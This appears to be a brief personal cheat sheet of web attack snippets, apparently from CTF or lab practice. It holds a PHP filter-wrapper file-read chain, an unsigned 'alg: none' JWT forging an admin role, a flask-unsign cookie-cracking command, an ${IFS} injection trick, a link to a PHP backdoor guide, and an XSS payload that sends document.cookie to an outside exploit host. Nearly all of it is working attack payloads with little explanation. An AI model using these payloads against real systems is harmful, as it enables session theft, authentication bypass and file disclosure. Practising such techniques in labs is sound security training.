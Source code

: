 space php use in filter
```php
php://filter/convert.iconv.utf-8.utf-16le/resource=file://
```
---

in JWT 
```JSON 
{
  "typ": "JWT",
  "alg": "none"
}
```
Don't send the SIGNATURE send like this :

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ.`
and don't forget dot `.` 

---
to crack jwt use it command :
```bash
flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie eyJsb2dpbiI6dHJ1ZSwidXNlciI6Im1vaG5hZCIsImFsZyI6IkhTMjU2In0.Ywfvv703.uwZ8eXSTttoVjrXphTqPQprtQod81UmIo6xRfcWY3ao
```

---
```
in php " " == ${IFS}
```
---
[backdore php](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

---
xss ngrpk paylode
```js
<script> var i=new Image(); i.src='https://exploit-0acc00b804bd4cfac0c1a75b017a007d.web-security-academy.net/exploit?='+document.cookie</script>
```
